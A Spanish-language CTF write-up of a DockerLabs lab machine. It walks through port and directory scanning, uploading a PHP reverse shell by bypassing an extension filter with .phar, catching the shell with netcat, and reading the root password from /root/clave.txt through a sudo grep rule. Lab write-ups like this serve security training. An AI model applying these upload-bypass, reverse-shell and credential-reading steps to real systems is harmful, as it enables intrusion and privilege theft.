

**Plataforma:** Dockerlabs\
**Sistema Operativo:** Linux

> **Tags:** `Linux` `Web` `PHP` `Gobuster` `File Upload` `Bypass` `RCE` `Sudoers`

## INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash
unzip dockerlabs.zip
```

La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh dockerlabs.tar
```

Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

## ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
```

```bash
nmap -n -Pn -sCV -p80 --min-rate 5000 172.17.0.2
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-01 17:17 CET
Nmap scan report for 172.17.0.2
Host is up (0.000061s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Dockerlabs
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.70 seconds
```

Solo el puerto `80` está accesible. Accedemos por `HTTP` y nos encontramos una página que se asemeja a la página oficial de DockerLabs.

## GOBUSTER

Realizamos `fuzzing` de directorios para intentar localizar directorios o archivos ocultos.

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,zip,php,txt,bak,sh -b 403,404 -t 60
```

Info:

```
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 60
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.8
[+] Extensions:              sh,html,zip,php,txt,bak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 8235]
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/upload.php           (Status: 200) [Size: 0]
/machine.php          (Status: 200) [Size: 1361]
Progress: 102351 / 1543906 (6.63%)
```

Encontramos varios archivos `.php` y un directorio `/uploads`. Navegamos al archivo `machine.php` y nos encontramos un formulario de subida, suponemos que para subir las máquinas.



Intentamos subir una `reverse shell` en `PHP`, pero nos aparece el siguiente mensaje:

```
No se permite la subida de archivos que no sean .zip
```

Vamos a intentar `bypasear` esta restricción renombrando el archivo `.php` a `.phar`.

```bash
mv shell.php shelll.phar
```

Volvemos a intentar la subida y ahora funciona correctamente.

```
El archivo shelll.phar ha sido subido correctamente.
```

Navegamos al directorio `/uploads` que hemos encontrado antes y vemos que aparece nuestro archivo `shell.phar`.

Antes de acceder a él, ponemos un `listener` en nuestra máquina atacante.

```bash
sudo nc -nlvp 4444
```

Ahora sí, ejecutamos el archivo subido.

Info:

```
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 35706
Linux f5e2571a1bae 6.16.8+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.16.8-1kali1 (2025-09-24) x86_64 x86_64 x86_64 GNU/Linux
 17:24:22 up  1:46,  0 user,  load average: 4.31, 4.34, 2.10
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```

Hemos recibido la `reverse shell` como el usuario `www-data`.

## TTY

Antes de buscar vectores de escalada de privilegios, vamos a hacer un tratamiento de TTY para tener una shell más interactiva, con los siguientes comandos:

```bash
script /dev/null -c bash
```

`ctrl Z`

```bash
stty raw -echo; fg
```

```bash
reset xterm
```

```bash
export TERM=xterm
```

```bash
export BASH=bash
```

## ESCALADA DE PRIVILEGIOS

Una vez dentro, comprobamos permisos `sudo` y `SUID`.

```bash
sudo -l
```

Info:

```
Matching Defaults entries for www-data on f5e2571a1bae:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on f5e2571a1bae:
    (root) NOPASSWD: /usr/bin/cut
    (root) NOPASSWD: /usr/bin/grep
```

Observamos que podemos ejecutar los binarios `cut` y `grep` con privilegios de `root`.

Seguimos buscando y encontramos un archivo `nota.txt` en el directorio `/opt`, con el siguiente contenido:

```
Protege la clave de root, se encuentra en su directorio /root/clave.txt, menos mal que nadie tiene permisos para acceder a ella.
```

Ahora sabemos que en el directorio `/root` hay un archivo `clave.txt` con la contraseña de `root`.

Podemos utilizar el binario `grep`, que podemos ejecutar con privilegios de `root`, para leer el contenido de `clave.txt`.

```bash
LFILE=/root/clave.txt
sudo /usr/bin/grep '' $LFILE
```

Info:

```
dockerlabsmolamogollon123
```

Procedemos a autenticarnos como `root` con la contraseña encontrada.

```bash
su root
```

Info:

```
root@f5e2571a1bae:/opt# whoami
root
root@f5e2571a1bae:/opt#
```

Ya somos root!
